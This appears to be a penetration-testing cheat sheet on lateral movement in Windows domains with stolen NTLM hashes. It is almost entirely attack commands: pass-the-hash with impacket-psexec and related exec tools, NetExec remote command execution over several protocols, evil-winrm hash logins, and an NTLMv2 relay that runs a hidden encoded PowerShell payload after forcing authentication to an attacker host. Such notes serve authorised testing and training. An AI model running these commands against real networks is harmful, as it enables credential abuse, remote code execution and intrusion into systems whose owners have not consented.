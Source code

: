 ### ***Move using Hashes and Tickets! (LAr for ALL)***
# ***Pass the Hash (DU)***
***Works on Domain accounts and the BUILTIN-Administrator account (for Local Admin group) only!***
## impacket (smb)
```shell
# Domain / Local
impacket-psexec -dc-ip `dc` `dom`/user@`tip` -hashes :HASH
impacket-psexec Administrator@`tip` -hashes :HASH

# other EXECS
impacket-wmiexec
impacket-smbclient
impacket-smbexec
impacket-atexec
impacket-dcomexec
```
## nxc
```shell
nxc smb `tip` -d `dom` -u 'AdminUser' -H HASH -x "COMMAND" [ --local-auth ] [ --verbose ]
# Other Protocols
wmi
ldap
ssh
winrm
rdp
vnc
```
## NTLMv2 Relay
```shell
# 1 Setup in Kali
impacket-ntlmrelayx --no-http-server -smb2support -t RELAY_TO_IP -c "powershell.exe -nop -w hidden -enc encoded_payload..."

# 2 Force auth
dir \\KALI_IP\path\to\test
```
## nxc
```shell
nxc smb `tip` -d DOMAIN -u USER -H HASH -x "COMMAND"
# Can use --local-auth instead of -d
# -t [threads]
# --verbose
# Other Protocols
# ftp
# rdp
# mssql
# smb
# ldap
# ssh
# winrm
```
## evilwinrm
```shell
evil-winrm -i `tip` -u USER -H HASH
```
# ***Windows***